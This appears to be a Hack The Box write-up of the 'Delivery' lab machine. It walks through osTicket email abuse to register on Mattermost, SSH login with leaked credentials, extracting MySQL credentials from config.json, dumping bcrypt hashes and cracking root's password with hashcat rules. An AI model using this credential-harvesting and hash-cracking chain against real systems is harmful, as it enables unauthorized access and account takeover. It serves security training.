

---
tags:
  - osticket
  - mattermost
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Delivery
- Reference :  https://0xdf.gitlab.io/2021/05/22/htb-delivery.html
- Solved : 2024.12.05. (Thu) (Takes 1days)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**:
        - Discovered open ports: `22 (ssh)`, `80 (http)`, and `8065 (mattermost)`.
        - Identified `osTicket` running on port `80` and `Mattermost` on port `8065`.
    - **OS Ticket Exploration**:
        - Created a ticket, extracted the email address `1641750@delivery.htb`, and used it to receive Mattermost email verification.
    
2. **Gaining Access to Mattermost**
    - Used the email verification link from OS Ticket to register on Mattermost.
    - Found a message containing credentials: `maildeliverer:Youve_G0t_Mail!` and hints about password variations based on `PleaseSubscribe!`.
    
3. **Shell as `maildeliverer`**
    - Logged in via SSH using `maildeliverer:Youve_G0t_Mail!`.
    - Enumerated the system but found no immediate privilege escalation paths.
    - Explored Mattermost configuration files at `/opt/mattermost/config/config.json` and found MySQL credentials: `mmuser:Crack_The_MM_Admin_PW`.
    
4. **Database Enumeration**
    - Logged into MySQL using the Mattermost credentials.
    - Enumerated the `Users` table in the `mattermost` database and retrieved bcrypt password hashes, including the hash for the `root` user.
    
5. **Cracking the `root` Hash**
    - Identified the hash as `bcrypt` and used `hashcat` with the `best64.rule` to generate password variations from `PleaseSubscribe!`.
    - Successfully cracked the `root` hash as `PleaseSubscribe!21`.
    
6. **Privilege Escalation to `root`**
    - Used the cracked password to switch to the `root` user via `su`.
    - Gained full control of the system.

### Key Techniques:

- **Enumeration**: Discovered services and gathered credentials through OS Ticket and Mattermost exploration.
- **Exploiting Services**: Used email verification to bypass account restrictions on Mattermost.
- **Configuration File Analysis**: Extracted database credentials from Mattermost configuration.
- **Hash Cracking**: Leveraged `hashcat` with rules to crack bcrypt hashes using known password patterns.
- **Privilege Escalation**: Used cracked credentials to escalate to the `root` user.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.222
Performing quick port scan on 10.10.10.222...
Found open ports: 22,80,8065
Performing detailed scan on 10.10.10.222...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 05:48 EST
Nmap scan report for 10.10.10.222
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
8065/tcp open  unknown
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Thu, 05 Dec 2024 10:44:52 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: yo1i3dhjn7gsjporicz5f85f1r
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Thu, 05 Dec 2024 10:48:31 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Thu, 05 Dec 2024 10:48:32 GMT
|_    Content-Length: 0
<SNIP>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.74 seconds
```

- 3 ports are open : ssh(22), http(80), http(8065)
- Referring to the response from port 8065, it looks like `mattermost` is running on port 8065.
- `nginx` server is running on port 80.

### http(80)


It looks like a helpdesk server. Let me click the link.
`HELPDESK` has the following link : `helpdesk.delivery.htb`
Let's add this to `/etc/hosts`.
Then, let's try reconnect to `helpdesk.delivery.htb`


It's redirected to `SUPPORT CENTER` webpage.
On its bottom, it shows that the application is `osTicket`.

Let's try open a new ticket.



I sent a request to create a ticket.
Then, I got the message as following:


It shows `ticket id value` : `1641750`
And it says that if I want to add more information, I need to send a mail to `1641750@delivery.htb`.

Let's check ticket status.


I can see the text that I sent.


I can add reply with the text box below.
I tampered this input with various payload including `XSS`. But it was not working.

Since I don't have any clue for now, and have observed that it has to do with `mattermost`..
Let's move on to `8065`.

### http(8065)


It's a `mattermost` login page.
I think this allows creating new account. Let's try this.


However, this requires verification with valid mail address..
Since I used a fake email address, it was not working..
Wait... I can receive a mail through OS Ticket..?

# Shell as `maildeliverer`

### Exploiting `OS Ticket` and `Mattermost`

Based on the output when I created ticket, I think I can take message through created ticket mail address. Let's try this!


At this time, let's use `1641750@delivery.htb` that I got from OS Ticket.


Let's see OS Ticket to see if there's any message received.


Yes! I got a message which allows sign-up through the following address:
`http://delivery.htb:8065/do_verify_email?token=poh7fn7uiub7yjs8c7wewikk5w1wqzpein73tnhwbu6dm4g8m4ykcc5zg85ctefs&email=1641750%40delivery.htb`


When I connect to the address, I can see that my Email is verified.
Let's login with the account.


There's one group that I can join already. Let's open it.


I can see the existing chats which might be useful.
`root` is saying something important:

```
@developers Please update theme to the OSTicket before we go live.
Credentials to the server are maildeliverer:Youve_G0t_Mail! 

Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```

The message contains many clues:
- `maildeliverer`: `Youve_G0t_Mail!` credential is found.
- Maybe I need to create a variant set of password from `PleaseSubscribe!` and using `hashcat` to crack some hash?

First, let's test this credential at `OS Ticket` service.


Then, lets' try `ssh` connect.

```vbnet
┌──(kali㉿kali)-[~/htb]
└─$ ssh maildeliverer@10.10.10.222
The authenticity of host '10.10.10.222 (10.10.10.222)' can't be established.
ED25519 key fingerprint is SHA256:AGdhHnQ749stJakbrtXVi48e6KTkaMj/+QNYMW+tyj8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.222' (ED25519) to the list of known hosts.
maildeliverer@10.10.10.222's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ id
uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
```

Yes! It's working on `ssh` service!


# Shell as `root`

### Enumeration

Let's enumerate on `maildeliverer`'s shell.

First let's check `sudo`able command.

```bash
maildeliverer@Delivery:/home$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for maildeliverer: 
Sorry, user maildeliverer may not run sudo on Delivery.
```

Then, let's check `SUID` files.

```bash
maildeliverer@Delivery:/home$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/fusermount

maildeliverer@Delivery:/home$ pkexec --version
pkexec version 0.105
```

Among the binaries, I thought `pkexec` looks abnormal. So checked its version.

### Try privesc using `pkexec`

There's an exploit as follows;


Let's test it.

```bash
maildeliverer@Delivery:~$ ./50011.sh
./50011.sh: line 26: yum: command not found
[*] Vulnerable version of polkit found
[*] Determining dbus-send timing
[*] Attempting to create account
```

It says the target has vulnerable `pkexec`.. but it's not working.
Ok.. Let's run `linpeas` to enumerate thoroughly.

```bash
maildeliverer@Delivery:~$ ./linpeas_linux_amd64 

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                       
Sudo version 1.8.27     

<SNIP>
```

No useful information's found...

### Investigate `Mattermost`

Let's try to find `mattermost`'s services more deeply..
Try `find` command to find where it's installed.

```bash
maildeliverer@Delivery:/opt/mattermost/config$ find / -name "*mattermost*" 2>/dev/null
/etc/systemd/system/multi-user.target.wants/mattermost.service
/opt/mattermost
/opt/mattermost/client/images/mattermost-cloud.svg
/opt/mattermost/client/emoji/mattermost.png
/opt/mattermost/client/plugins/com.mattermost.plugin-channel-export
/opt/mattermost/client/plugins/com.mattermost.plugin-incident-management
/opt/mattermost/client/plugins/com.mattermost.nps
/opt/mattermost/logs/mattermost.log
/opt/mattermost/plugins/com.mattermost.plugin-channel-export
/opt/mattermost/plugins/com.mattermost.plugin-incident-management
/opt/mattermost/plugins/com.mattermost.nps
/opt/mattermost/bin/mattermost
<SNIP>
```

Let's go to `/opt/mattermost`

```bash
maildeliverer@Delivery:/opt/mattermost$ ls
bin     ENTERPRISE-EDITION-LICENSE.txt  manifest.txt         README.md
client  fonts                           NOTICE.txt           templates
config  i18n                            plugins
data    logs                            prepackaged_plugins
```

In `config` directory, there's `config.json` file.
Let's investigate this file.

```bash
maildeliverer@Delivery:/opt/mattermost/config$ more config.json

{
    "ServiceSettings": {
        "SiteURL": "",
        "WebsocketURL": "",
        "LicenseFileLocation": "",
        "ListenAddress": ":8065",
        "ConnectionSecurity": "",
        "TLSCertFile": "",
        "TLSKeyFile": "",
        "TLSMinVer": "1.2",
        "TLSStrictTransport": false,
        "TLSStrictTransportMaxAge": 63072000,
        "TLSOverwriteCiphers": [],
        "UseLetsEncrypt": false,
        "LetsEncryptCertificateCacheFile": "./config/letsencrypt.cache",
        "Forward80To443": false,
        "TrustedProxyIPHeader": [],
        "ReadTimeout": 300,
        "WriteTimeout": 300,
        "IdleTimeout": 60,
        "MaximumLoginAttempts": 10,
        "GoroutineHealthThreshold": -1,
        "GoogleDeveloperKey": "",
        "EnableOAuthServiceProvider": false,
        "EnableIncomingWebhooks": true,
        "EnableOutgoingWebhooks": true,
        "EnableCommands": true,
        "EnableOnlyAdminIntegrations": true,
        "EnablePostUsernameOverride": false,
        "EnablePostIconOverride": false,
        "EnableLinkPreviews": true,
        "EnableTesting": false,
        "EnableDeveloper": false,
        "EnableOpenTracing": false,
        "EnableSecurityFixAlert": true,
        "EnableInsecureOutgoingConnections": false,
        "AllowedUntrustedInternalConnections": "",
        "EnableMultifactorAuthentication": false,
        "EnforceMultifactorAuthentication": false,
        "EnableUserAccessTokens": false,
        "AllowCorsFrom": "",
        "CorsExposedHeaders": "",
        "CorsAllowCredentials": false,
        "CorsDebug": false,
        "AllowCookiesForSubdomains": false,
        "ExtendSessionLengthWithActivity": true,
        "SessionLengthWebInDays": 30,
        "SessionLengthMobileInDays": 30,
        "SessionLengthSSOInDays": 30,
        "SessionCacheInMinutes": 10,
        "SessionIdleTimeoutInMinutes": 43200,
        "WebsocketSecurePort": 443,
        "WebsocketPort": 80,
        "WebserverMode": "gzip",
        "EnableCustomEmoji": true,
        "EnableEmojiPicker": true,
        "EnableGifPicker": true,
        "GfycatApiKey": "2_KtH_W5",
        "GfycatApiSecret": "3wLVZPiswc3DnaiaFoLkDvB4X0IV6CpMkj4tf2inJRsBY6-
FnkT08zGmppWFgeof",
        "RestrictCustomEmojiCreation": "all",
        "RestrictPostDelete": "all",
        "AllowEditPost": "always",
        "PostEditTimeLimit": -1,
        "TimeBetweenUserTypingUpdatesMilliseconds": 5000,
        "EnablePostSearch": true,
        "MinimumHashtagLength": 3,
        "EnableUserTypingMessages": true,
        "EnableChannelViewedMessages": true,
        "EnableUserStatuses": true,
        "ExperimentalEnableAuthenticationTransfer": true,
        "ClusterLogTimeoutMilliseconds": 2000,
        "CloseUnusedDirectMessages": false,
        "EnablePreviewFeatures": true,
        "EnableTutorial": true,
        "ExperimentalEnableDefaultChannelLeaveJoinMessages": true,
        "ExperimentalGroupUnreadChannels": "disabled",
        "ExperimentalChannelOrganization": false,
        "ExperimentalChannelSidebarOrganization": "disabled",
        "ExperimentalDataPrefetch": true,
        "ImageProxyType": "",
        "ImageProxyURL": "",
        "ImageProxyOptions": "",
        "EnableAPITeamDeletion": false,
        "EnableAPIUserDeletion": false,
        "ExperimentalEnableHardenedMode": false,
        "DisableLegacyMFA": true,
        "ExperimentalStrictCSRFEnforcement": false,
        "EnableEmailInvitations": false,
        "DisableBotsWhenOwnerIsDeactivated": true,
        "EnableBotAccountCreation": false,
        "EnableSVGs": false,
        "EnableLatex": false,
        "EnableAPIChannelDeletion": false,
        "EnableLocalMode": false,
        "LocalModeSocketLocation": "/var/tmp/mattermost_local.socket",
        "EnableAWSMetering": false,
        "SplitKey": "",
        "FeatureFlagSyncIntervalSeconds": 30,
        "DebugSplit": false,
        "ThreadAutoFollow": true,
        "ManagedResourcePaths": ""
    },
<SNIP>
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mat
termost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
```

Surprisingly, the `config.json` file contains `mmuser`'s credential : `Crack_The_MM_Admin_PW`
Let's try connect to `mysql` service with this credential.

```sql
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 95
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| Audits                 |
| Bots                   |
| ChannelMemberHistory   |
| ChannelMembers         |
| Channels               |
| ClusterDiscovery       |
| CommandWebhooks        |
| Commands               |
| Compliances            |
| Emoji                  |
| FileInfo               |
| GroupChannels          |
| GroupMembers           |
| GroupTeams             |
| IncomingWebhooks       |
| Jobs                   |
| Licenses               |
| LinkMetadata           |
| OAuthAccessData        |
| OAuthApps              |
| OAuthAuthData          |
| OutgoingWebhooks       |
| PluginKeyValueStore    |
| Posts                  |
| Preferences            |
| ProductNoticeViewState |
| PublicChannels         |
| Reactions              |
| Roles                  |
| Schemes                |
| Sessions               |
| SidebarCategories      |
| SidebarChannels        |
| Status                 |
| Systems                |
| TeamMembers            |
| Teams                  |
| TermsOfService         |
| ThreadMemberships      |
| Threads                |
| Tokens                 |
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+
46 rows in set (0.000 sec)

MariaDB [mattermost]> describe Users;
+--------------------+--------------+------+-----+---------+-------+
| Field              | Type         | Null | Key | Default | Extra |
+--------------------+--------------+------+-----+---------+-------+
| Id                 | varchar(26)  | NO   | PRI | NULL    |       |
| CreateAt           | bigint(20)   | YES  | MUL | NULL    |       |
| UpdateAt           | bigint(20)   | YES  | MUL | NULL    |       |
| DeleteAt           | bigint(20)   | YES  | MUL | NULL    |       |
| Username           | varchar(64)  | YES  | UNI | NULL    |       |
| Password           | varchar(128) | YES  |     | NULL    |       |
| AuthData           | varchar(128) | YES  | UNI | NULL    |       |
| AuthService        | varchar(32)  | YES  |     | NULL    |       |
| Email              | varchar(128) | YES  | UNI | NULL    |       |
| EmailVerified      | tinyint(1)   | YES  |     | NULL    |       |
| Nickname           | varchar(64)  | YES  |     | NULL    |       |
| FirstName          | varchar(64)  | YES  |     | NULL    |       |
| LastName           | varchar(64)  | YES  |     | NULL    |       |
| Position           | varchar(128) | YES  |     | NULL    |       |
| Roles              | text         | YES  |     | NULL    |       |
| AllowMarketing     | tinyint(1)   | YES  |     | NULL    |       |
| Props              | text         | YES  |     | NULL    |       |
| NotifyProps        | text         | YES  |     | NULL    |       |
| LastPasswordUpdate | bigint(20)   | YES  |     | NULL    |       |
| LastPictureUpdate  | bigint(20)   | YES  |     | NULL    |       |
| FailedAttempts     | int(11)      | YES  |     | NULL    |       |
| Locale             | varchar(5)   | YES  |     | NULL    |       |
| Timezone           | text         | YES  |     | NULL    |       |
| MfaActive          | tinyint(1)   | YES  |     | NULL    |       |
| MfaSecret          | varchar(128) | YES  |     | NULL    |       |
+--------------------+--------------+------+-----+---------+-------+
25 rows in set (0.001 sec)

MariaDB [mattermost]> select Username, Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| bokchee                          | $2a$10$6i6T.4oZF5S.oWzU7Vta/OLaHWCfA2wHTQlErk/8EkwN02/QhZ5Ki |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| test_1641750                     | $2a$10$UfllybUL30YxqZcak1AnRetZFPldjYlSAwGfvIWcvDZZfHwWFZCp6 |
+----------------------------------+--------------------------------------------------------------+
9 rows in set (0.000 sec)
```

It successfully extract many hashes!

### Crack the hash

Based on SQL query output, `root`'s hash is `$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO`.

Let's try cracking this hash.
First, I need to identify its hash type.


It says it's `bcrypt` hash.
According to the hashcat example, 

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 25600 hash /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

<SNIP>
```

Default `rockyou.txt` is not working..
Instead, what about using the previously found credential : `PleaseSubscribe!`.
It says that there might be a variation from this.
Let's create password lists using `hashcat` and crack the hash.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat password 
PleaseSubscribe
                                                                            
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -r /usr/share/hashcat/rules/best64.rule password --stdout > passwords
                                                                            
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 3200 -a 0 hash passwords                              
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1437/2939 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: passwords
* Passwords.: 77
* Bytes.....: 1177
* Keyspace..: 77
* Runtime...: 0 secs

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Thu Dec  5 14:24:58 2024 (1 sec)
Time.Estimated...: Thu Dec  5 14:24:59 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       63 H/s (7.91ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 32/77 (41.56%)
Rejected.........: 0/32 (0.00%)
Restore.Point....: 16/77 (20.78%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: PleaseSubscribe!02 -> PleaseSubscribs
Hardware.Mon.#1..: Util: 35%

Started: Thu Dec  5 14:24:55 2024
Stopped: Thu Dec  5 14:25:00 2024
```

It successfully cracked the hash.
The cracked password is : `PleaseSubscribe!21`

Let's test it using `su`.

```bash
maildeliverer@Delivery:/opt/mattermost/config$ su -
Password: 
root@Delivery:~# whoami
root
root@Delivery:~# id
uid=0(root) gid=0(root) groups=0(root)
```

I got root!